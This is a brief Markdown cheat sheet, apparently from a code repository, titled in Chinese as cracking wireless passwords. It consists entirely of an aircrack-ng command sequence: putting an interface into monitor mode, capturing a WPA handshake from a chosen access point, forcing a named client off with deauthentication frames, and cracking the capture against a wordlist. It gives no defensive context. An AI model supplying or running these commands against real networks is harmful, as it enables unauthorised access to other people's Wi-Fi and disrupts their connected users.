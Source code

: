 # 破解无线密码
* airmon-ng check kill
* airmon-ng start wlan0
* airodump-ng wlan0mon
* airodump-ng -w capfile -c 11 --bssid [BSSID]  wlan0mon
* aireplay-ng -0 10 -a 3C:46:D8:99:22:84 -c 64:B4:73:40:60:5C  wlan0mon  --ignore-negative-one
* aircrack-ng -w work/破解字典/超级字典/wordlist.txt  capfile-01.cap
